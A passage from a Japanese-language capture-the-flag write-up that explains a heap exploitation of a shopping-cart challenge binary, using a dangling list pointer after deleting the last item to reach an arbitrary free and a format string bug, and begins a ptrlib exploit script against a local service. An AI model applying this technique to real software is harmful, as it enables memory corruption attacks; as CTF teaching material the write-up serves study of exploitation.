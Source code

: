 
さて，最後のアイテムを削除したときの挙動を使ってみましょう．
最後のアイテムを削除すると`cart->last`が1つ前のアイテムになります．
例えば2つアイテムを用意します．
```
cart->first = item1
cart->last = item2
cart->n = 2
name = NULL
*(item1 + 0x18) = item2
```
この状態で2つ目のアイテムを削除すると，次のようになります．
```
cart->first = item1
cart->last = item1
cart->n = 1
*(item1 + 0x18) = item2
fastbins[for 0x20] = item2
```
さらにこの状態で名前を取得します．
```
cart->first = item1
cart->last = item1
cart->n = 1
*(item1 + 0x18) = item2
name = item2
```
するとitem1からnameに向けてリストが繋がることが分かります．
ただし，nは1のままなので`view_order`で中身を参照するなどはできません．
しかし，`remove_item`ではnをチェックしておらず，リストを辿っていくだけなのでnameに書かれたアドレスをfreeできます．
ヒープのアドレスは持っているので，任意のアドレスをfreeできそうです．
cartを削除し，nameをmallocすることでcart内の各種アドレスを上書きできます．
`cart->first`を`add_name`で確保したアドレスにすればFSBを引き起せます．

まずは自分の用意した文字列をitemの名前として認識させましょう．
fgetsは終端をNULLにしますが，ヒープのアドレスの最後のバイトはNULLなので問題ありません．
```python
from ptrlib import *

def add_name(name):
    sock.recvuntil(">")
    sock.sendline("1")
    sock.recvline()
    sock.sendline(name)

def add_item(item):
    sock.recvuntil(">")
    sock.sendline("2")
    sock.sendline(str(item))

def view_order(item):
    sock.recvuntil(">")
    sock.sendline("4")
    sock.recvuntil("Item #" + str(item) + ": ")
    return sock.recvline().rstrip()

def remove_item(item):
    sock.recvuntil(">")
    sock.sendline("3")
    sock.recvline()
    sock.sendline(str(item))

elf = ELF("./pwnable")

sock = Socket("127.0.0.1", 9001)
_ = input()
```